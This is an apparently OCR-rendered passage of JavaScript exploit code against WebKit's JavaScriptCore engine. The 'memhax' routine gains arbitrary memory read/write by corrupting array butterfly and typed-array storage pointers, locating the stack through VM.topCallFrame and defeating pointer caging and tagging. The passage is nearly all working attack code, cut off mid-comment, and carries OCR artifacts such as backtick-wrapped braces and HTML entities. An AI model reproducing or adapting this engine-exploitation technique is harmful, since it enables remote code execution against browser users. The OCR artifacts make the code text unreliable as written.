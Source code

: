 ```
//
const READ = 0, WRITE = 1;
let memhax_template = function memhax(memviews, operation, address, buffer, length, stack, needle) `{`
    // See below for the source of these preconditions.
    if (length &gt; memviews[0].length) `{`
        throw "Memory access too large";
    `}` else if (memviews.length % 2 !== 1) `{`
        throw "Need an odd number of TypedArrays";
    `}`

    // Save old backing storage pointer to restore it afterwards.
    // Otherwise, GC might end up treating the stack as a MarkedBlock.
    let savedPtr = controller[1];

    // Function to get a pointer into the stack, below the current frame.
    // This works by creating a new CallFrame (through a native funcion), which
    // will be just below the CallFrame for the caller function in the stack,
    // then reading VM.topCallFrame which will be a pointer to that CallFrame:
    // https://github.com/WebKit/webkit/blob/e86028b7dfe764ab22b460d150720b00207f9714/
    // Source/JavaScriptCore/runtime/VM.h#L652)
    function getsp() `{`
        function helper() `{`
            // This code currently assumes that whatever precedes topCallFrame in
            // memory is non-zero. This seems to be true on all tested platforms.
            controller[1] = vm_top_call_frame_addr_dbl;
            return memarr[0];
        `}`
        // DFGByteCodeParser won't inline Math.max with more than 3 arguments
        // https://github.com/WebKit/webkit/blob/e86028b7dfe764ab22b460d150720b00207f9714/
        // Source/JavaScriptCore/dfg/DFGByteCodeParser.cpp#L2244
        // As such, this will force a new CallFrame to be created.
        let sp = Math.max(`{`valueOf: helper`}`, -1, -2, -3);
        return Int64.fromDouble(sp);
    `}`

    let sp = getsp();

    // Set the butterfly of the |stack| array to point to the bottom of the current
    // CallFrame, thus allowing us to read/write stack data through it. Our current
    // read/write only works if the value before what butterfly points to is nonzero.
    // As such, we might have to try multiple stack values until we find one that works.
    let tries = 0;
    let stackbase = new Int64(sp);
    let diff = new Int64(8);
    do `{`
        stackbase.assignAdd(stackbase, diff);
        tries++;
        controller[1] = stackbase.asDouble();
    `}` while (stack.length &lt; 512 &amp;&amp; tries &lt; 64);

    // Load numregs+1 typed arrays into local variables.
    let m$r = memviews[$r];

    // Load, uncage, and untag all array storage pointers.
    // Since we have more than numreg typed arrays, at least one of the
    // raw storage pointers will be spilled to the stack where we'll then
    // corrupt it afterwards.
    m$r[0] = 0;

    // After this point and before the next access to memview we must not
    // have any DFG operations that write Misc (and as such World), i.e could
    // cause a typed array to be detached. Otherwise, the 2nd memview access
```